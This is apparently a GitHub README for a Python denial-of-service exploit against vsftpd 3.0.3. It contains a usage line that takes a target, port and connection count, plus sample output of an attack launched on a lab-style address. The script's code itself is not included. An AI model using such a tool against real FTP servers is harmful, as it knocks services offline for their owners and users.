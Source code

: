 # vsftpd-3.0.3-DoS
vsftpd 3.0.3 Exploit - Remote Denial of Service by [xynmaps](https://www.exploit-db.com/?author=10841)

usage: python3 vsftpd303-dos.py <TARGET> <PORT(DEFAULT:21> <MAX_CONNS(DEFAULT:50)>

```
._________________.
|     VS-FTPD     |
|      D o S      |
|_________________|
|By XYN/DUMP/NSKB3|
|_|_____________|_|
|_|_|_|_____|_|_|_|
|_|_|_|_|_|_|_|_|_|


[!] Testing if 10.10.10.245:21 is open
[+] Port 21 open, starting attack...
[+] Attack started on 10.10.10.245:21!

```
